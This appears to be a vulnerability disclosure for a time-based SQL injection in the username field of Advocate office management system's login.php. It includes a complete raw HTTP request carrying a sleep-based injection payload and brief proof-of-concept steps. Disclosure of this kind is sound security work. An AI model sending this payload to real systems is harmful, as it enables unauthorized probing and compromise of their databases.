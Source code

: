 # Advocate office management system login.php time-based SQL Injection Vulnerability

* **Exploit Title**: Advocate office management system login.php time-based SQL Injection Vulnerability
* **Exploit Author**: webraybtl@webray.com.cn inc
* **Vendor Homepage**: https://www.sourcecodester.com/php/17280/advocate-office-management-system-free-download.html[](https://www.sourcecodester.com/download-code?nid=17280&title=Advocate+office+management+system+free+download)
* **Software Link**: https://www.sourcecodester.com/download-code?nid=17280&title=Advocate+office+management+system+free+download
* **Version**: Advocate office management system v1.0
* **Tested on:**  PHP 7.4.33, OpenResty1.21.4.3-3-3-focal
* **CVE:**  Reported, waiting for CVE number.

## Description

Advocate office management system login.php `username`​ parameter has a time-based SQL injection Vulnerability.

#### Payload used

```
POST /control/login.php HTTP/1.1
Host: 192.168.56.128:8080
Referer: http://192.168.56.128:8080/control/login.php
Origin: http://192.168.56.128:8080
Cookie: PHPSESSID=c44ka87dik7dcvd007quilufp2
Priority: u=0, i
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: multipart/form-data; boundary=---------------------------50827837581442896902132243
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Content-Length: 422

-----------------------------50827837581442896902132243
Content-Disposition: form-data; name="username"

mayuri.infospace@gmail.com'and sleep(3) -- '
-----------------------------50827837581442896902132243
Content-Disposition: form-data; name="password"

admin
-----------------------------50827837581442896902132243
Content-Disposition: form-data; name="login"

Login
-----------------------------50827837581442896902132243--
```

## Proof of Concept

* Visit the login page, fill in the email and password, click login to get the post

  Request package.
* Construct the post request package and send it to the login.php. Successfully saw that the response time was delayed by the specified number of seconds.

​![login](assets/login-20240923170718-nwmo6ev.gif)​

* Upon reviewing the source code, it was discovered that the `username`​ parameter was directly concatenated into the SQL statement.

​![image](assets/image-20240923170853-ia9dx3k.png)​
